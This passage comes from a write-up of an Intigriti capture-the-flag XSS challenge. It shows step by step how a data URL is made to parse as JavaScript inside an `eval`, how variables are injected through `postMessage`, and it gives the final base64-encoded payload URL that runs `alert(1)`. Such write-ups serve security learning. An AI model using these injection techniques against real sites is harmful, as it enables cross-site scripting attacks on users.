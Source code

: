 It certainly isn't coherent code, but it is valid JavaScript code (which I guess can be said about a lot of codebases, but I'm getting sidetracked). The `+` at the end of my string is simply a base64 artifact. I'll continue working on my payload and if the final character is `+` I'll add garbage until the result of base64 encoding ends with a letter which will make it a valid variable name.

### Finally time to think about that XSS

So now I can call that `eval` with something that ressembles JavaScript... where do I put my `alert(document.domain)`? Once again I go back to trusty [MDN](https://developer.mozilla.org/) to read more about data URLs and where I could put my `alert`.

> `data:[<mediatype>][;base64],<data>`
>
> The `mediatype` is a MIME type string, such as `'image/jpeg'` for a JPEG image file. If omitted, defaults to `text/plain;charset=US-ASCII`

That `;charset=US-ASCII` grabs my attention. Maybe I can put my payload in there? It even looks like a JavaScript variable assignment! So I try this in my console

```javascript
> text = 1
1
> html = 1
1
> eval('data:text/html;charset=alert(1);base64,whatever')
Uncaught ReferenceError: base64 is not defined
    at eval (eval at <anonymous> ((index):1), <anonymous>:1:33)
    at <anonymous>:1:1
```

YES! The `alert` pops! It complains about `base64` not being defined but that happens after the `alert` so I don't care. Time to try it on the website! I change my payload to `<script>window.parent.postMessage({text:1, html:1, base64:1}, "*")</script>hi intigriti`. Remember the `Object.assign(window, e.data)` line that will take my posted message to define the `text` and `html` variables (I defined `base64` but it wasn't necessary). The `hi intigriti` at the end is simply to get rid of the `+` at the end of my base64 encoded payload. :)

The resulting URL is [https://challenge.intigriti.io/#data:text/html;charset=alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp](https://challenge.intigriti.io/#data:text/html;charset=alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp) and... it doesn't work.

What's great about data URLs is that you can put them in your address bar and see the result. This data URL `data:text/html;charset=alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp` shows a "This site can't be reached" message. I played with it a bit and discovered that the parentheses in `alert(1)` are breaking everything.

### The final step

I was so close! But my `alert` doesn't run... I spent a ridiculous amout of time trying alternate ways to invoke the function without parentheses until it occured to me that maybe I don't need any of that `charset=` thing and maybe removing it could bypass the character validations that are breaking my URL. Now trying with [https://challenge.intigriti.io/#data:text/html;alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp](https://challenge.intigriti.io/#data:text/html;alert(1);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp) and the `alert(1)` pops! This is it, one final modification and this is it.
